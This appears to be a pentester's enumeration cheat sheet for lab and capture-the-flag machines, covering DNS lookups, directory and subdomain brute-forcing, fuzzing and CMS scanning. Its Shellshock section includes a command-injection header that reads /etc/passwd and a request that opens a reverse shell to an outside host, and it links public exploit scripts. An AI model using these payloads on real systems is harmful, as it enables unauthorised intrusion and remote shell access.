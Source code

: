 # Enumeration

<details>

<summary>Reverse Lookup IP addresses to hostnames</summary>

### Using nslookup

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

### Obtain IPs of machines that are up:

* save as `ips.txt`

```bash
nmap -sn --min-rate 5000 10.11.1.0/24 | grep "Nmap scan report for" | cut -d " " -f 5 > ips.txt
```

### Find possible DNS servers

```bash
nmap -p 53 --min-rate 5000 -iL ips.txt -oG dns_scan_results.txt
```

```bash
cat dns_scan_results.txt | grep "Ports: 53/open/" | cut -d " " -f 2 > dns_servers.txt
```

### Using DNSrecon to reverse lookup using different DNS servers:

```bash
for server in $(cat dns_servers.txt); do echo Using DNS server $server;dnsrecon -r 10.11.1.0/24 -n $server; done
```

### Reverse DNS lookup for one IP:

#### DNSRecon

```bash
dnsrecon -r 10.11.1.0/24 -n 10.11.1.220
```

#### Host command

```bash
host 10.11.1.116 10.11.1.220 
```

* Query dns server at 10.11.1.220 about the hostname of 10.11.1.116

</details>

<details>

<summary>Sitemap files</summary>

* /robots.txt

- /.htaccess

* /.htpasswd

- /sitemap.xml

</details>

<details>

<summary>Try /cgi-bin/ folder (Shellshock)</summary>

* If Status Code 200 --> possibly [shellshock](https://github.com/b4keSn4ke/CVE-2014-6271)
* If Status Code 403 --> try to enumerate `.sh`, `.cgi` files under `/cgi-bin/` directory

```bash
dirsearch -u http://10.11.1.71/cgi-bin -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```

* Commands for Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
```

* Burp Shellshock POST Request

```bash
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root
```

* Nmap scan to search for shellshock

```bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s)

</details>

<details>

<summary>Dirsearch</summary>

<pre class="language-shell"><code class="lang-shell"><strong>dirsearch -u &#x3C;ip> -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
</strong></code></pre>

```shell
dirsearch -u 172.16.64.140/project --auth-type=basic --auth=YWRtaW46YWRtaW4= -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
dirsearch -u http://192.168.206.156:8000/ipphone_files --cookie="PHPSESSID=cjetu00a7pouinp0oj9v01r6r0" -X -i 200,301 -r -f -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

Through a socks proxy (chisel port forwarding + proxychains)

```bash
dirsearch -u http://127.0.0.1:8000 -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080
```

</details>

<details>

<summary>Subdomain Enumeration</summary>

```bash
ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw <no. of words for default page>

gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain | grep -v 302
```

Can try wordlist`/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

* Add any subdomain you've found into `/etc/hosts`

```
10.10.57.54 dev.cmess.htm
```

</details>

<details>

<summary>Wpscan</summary>

```bash
wpscan --url somewebsite.com --enumerate u,ap,at,cb,dbe
```

* add in `--disable-tls-checks` for HTTPS sites

</details>

<details>

<summary>Droopescan (Drupal)</summary>

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

Drupal 7 <= 7.57

* [https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

</details>

<details>

<summary>Gobuster</summary>

```shell
gobuster dir -u <target site> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200 -q
```

```shell
gobuster dir -x php,txt -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 200 -q
```

```
gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

### Enumerate API (often followed by version number, v1, v2)

```bash
#api --> often followed by a version number
#	/api_name/v1
#	/api_name/v2
#pattern file:
#	{GOBUSTER}/v1
#	{GOBUSTER}/v2
gobuster dir -u http://192.168.50.16:5002 -w 
```

</details>

<details>

<summary>Testing file extensions for IIS servers</summary>

```
asp
aspx
config
php
```

</details>

<details>

<summary>Wfuzz</summary>

```bash
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

#### Post req:

```bash
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
```

#### Fuzzing cookies:

```bash
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

</details>

<details>

<summary>Perform Zone Transfer</summary>

* Scan a domain, specifying the nameserver and performing a zone transfer

```bash
dnsrecon --domain example.com --name_server nameserver.example.com --type axfr
```

</details>

<details>

<summary>Dig</summary>

### Zone Transfer

```bash
dig @192.168.194.165 AXFR heist.offsec
```

```bash
dig www.example.com + short
```

* For IPv4

```bash
dig -4 www.example.com 
```

```bash
dig www.example.com MX
```

```bash
dig www.example.com NS
```

```bash
dig www.example.com> SOA
```

</details>

<details>

<summary>DNSEnum</summary>

```bash
dnsenum 192.168.194.165
```

</details>

<details>

<summary>SSH Username Enum</summary>

* Linux with OpenSSH < 7.7

[https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py](https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py)

```
python ssh-username-enum.py <IP> -w <wordlist>
```

* Wordlist: [https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt)

</details>
